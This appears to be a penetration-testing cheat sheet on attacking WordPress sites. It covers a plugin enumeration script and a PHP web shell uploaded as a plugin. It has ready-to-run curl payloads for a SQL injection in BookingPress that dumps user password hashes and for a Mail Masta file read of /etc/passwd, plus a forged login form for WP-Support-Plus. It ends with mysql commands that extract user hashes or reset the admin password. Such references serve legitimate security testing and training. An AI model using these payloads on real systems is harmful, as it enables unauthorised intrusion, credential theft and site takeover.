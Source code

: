 # Wordpress

## Wordpress

### Basic Information

#### Themes files

They're located at `/wp-content/themes/` so if you gain access to the WordPress Admin panel, you can modify **404.php** of some theme, and then go to `/wp-content/themes/twentytwenty/404.php`

#### Main WordPress files

| File          | Description                                                                                                                                                                                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| wp-config.php | Here you can find the root password of the database                                                                                                                                                          |
| xmlrpc.php    | File that represents a feature that enables data to be transmited by HTTP with XML mechanism. You can use this [script](https://github.com/notlucken/xmlrpc\_bruteforce/) to bruteforce users and passwords. |
| license.txt   | Userful information like the version of WordPress                                                                                                                                                            |

### Plugins Enumeration

To identify plugins of a Wordpress site, we can use a Script created by S4vitar but I improved it and uploaded to GitHub:

[Enumerate WordPress Plugins](https://github.com/notlucken/enumWordpressPlugins)

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "[!] Exiting..."
  exit 1
}


#Ctrl + C
trap ctrl_c INT

declare -i c=0

function readPlugins(){

  url=$1
  echo -e "\n[!] These are the plugins of $1:\n"
  echo -n "[+] "; curl -s -X GET "$url" | grep -oP '/plugins/\K[^.*/]+' | sort -u 
}

function helPanel(){
  echo -e "\n[i] Use\n"
  echo -e "\nh) Show this panel\n"
  echo -e "\nf) URL\n"
}

while getopts "hf:" arg; do
  case $arg in
    h) ;;
    f) url=$OPTARG; let c+=1;;
  esac
done

if [ $c -eq 1 ]; then
  readPlugins "$url"
else
  helPanel
fi
```

The usage is simple, only do a `chmod +x enumWordPressPlugins.sh` and later \`\`./enumWordpressPlugins.sh

### Plugin Explotations

#### PHP Plugin to RCE

Depending on the plugin, we can upload a .php file as a plugin.

```php
<?php system($_GET['cmd']); ?>
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You will see an error, but if we go to media:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Access it to see the link:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### BookingPress < 1.0.11 - Unauthenticated SQL Injection

The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress\_front\_get\_category\_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection

You need to search for the `wponce=<ID>` in a page, in order to make the exploit work:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

To dump users and their passwords:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users-- -'
```

### Mail Masta 1.0.0 - Local File Read

We can read files from the machine if this plugin is installed.

```bash
curl -s -X GET "http://<IP>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

### WP-Support-Plus-Responsive Ticket System < 7.1.3 - Privilege Escalation

You can login as anyone without knowing password because of incorrect usage of wp\_set\_auth\_cookie().

You need to know at least one username.

```txt
<form method="post" action="http://<IP>/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Then you need to enable a SimpleHTTPServer to exploit.

## Post Explotation

If we can see the username and password of MySQL database, we can use this command to extract usernames and passwords

```bash
mysql -u <USERNAME> --password=<PASSWORD> -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Or we can change admin password

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('12345678') WHERE ID = 1;"b
```
